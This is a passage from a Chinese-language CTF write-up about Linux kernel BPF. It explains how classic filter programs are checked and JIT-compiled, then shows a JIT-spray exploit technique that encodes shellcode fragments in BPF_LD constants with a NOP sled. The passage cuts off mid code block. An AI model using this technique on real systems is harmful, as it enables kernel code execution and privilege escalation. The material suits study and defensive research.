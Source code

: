 ```c
}
```

或者用來處理 packet 的 **socket filter**。

```c
// net/core/filter.c
int sk_attach_filter(/* ... */)
{
    struct bpf_prog *prog = __get_filter(fprog, sk);
    // [...]
}

static struct bpf_prog *__get_filter(/* ... */)
{
    // [...]
    return bpf_prepare_filter(prog, NULL);
}
```

然而，這兩個機制並不是直接使用 BPF program，而是用功能相較侷限的 **filter program**。Filter program 能使用的 bytecode 比較少，都是比較基本的操作，如 load const 或是簡單的加減法運算。當 process 請求 attach filter program 到 process 或是 socket 時，kernel 會呼叫 `bpf_prepare_filter()` 來處理。該 function 會先檢查 filter program 的合法性，像是看是否有不在白名單內的 operation，或是否有除 0 的操作 [1] 等等。當檢查完後，`bpf_migrate_filter()` [2] 會將 filter program 的 instructions **轉換成 BPF bytecode 的格式**並做 JIT。

```c
static struct bpf_prog *bpf_prepare_filter(/* ... */)
{
    // [...]
    err = bpf_check_classic(fp->insns, fp->len); // [1]
    
    // [...]
    fp = bpf_migrate_filter(fp); // [2]
    
    // [...]
}
```

如果有稍微玩過 v8 exploit 應該對 JIT 不陌生，有一招利用方式就是透過 const value 在 JIT code 中構造 shellcode，並使用 related jmp instruction 把每個 shellcode 片段串起來，若要增加穩定度還可以先 spray NOPs。之後只要想辦法 overwrite JIT function 的 entry 到 JIT code 的中間，就可以在呼叫 JS Function 時執行到由 const 所構造的 shellcode，細節可以參考 mem2019 的 [Dice CTF Memory Hole: Breaking V8 Heap Sandbox](https://mem2019.github.io/jekyll/update/2022/02/06/DiceCTF-Memory-Hole.html)。

Linux kernel 的 BPF JIT code 也可以透過類似的方式來構造 shellcode，同時這也是作者的預期解法。Filter program 中 load const value 是透過 bytecode `BPF_LD + BPF_K` 來完成，而 JIT 完後的 x64 native instruction 則是 5 bytes 的 `mov eax, XXXXX`。如果將 4 bytes 的 const value 控成 2 bytes 的 shellcode 加上 2 bytes 的 `jmp` instruction，則每個 shellcode 片段可以執行 2 bytes。如果改用 `mov bl, XX` (0xb3) instruction 來取代 `jmp`，則可以優化到 3 bytes shellcode。

構造好的 filter program 會長得像：
```c
struct sock_filter insns[] = {
    // spraying NOPs
    {.code = BPF_LD + BPF_K, .k = 0xb3909090},
    {.code = BPF_LD + BPF_K, .k = 0xb3909090},
    // [...]

    // kernel shellcode
    {.code = BPF_LD + BPF_K, .k = (0xb3 << 24) + SHELLCODE_1 /* 3 bytes shellcode */},
    {.code = BPF_LD + BPF_K, .k = (0xb3 << 24) + SHELLCODE_2 /* 3 bytes shellcode */},
    // [...]

    // return allow
    {.code = BPF_RET + BPF_K, .k = SECCOMP_RET_ALLOW}
};

struct sock_fprog sock_fprog = {
    .len = sizeof(insns) / sizeof(insns[0]),
```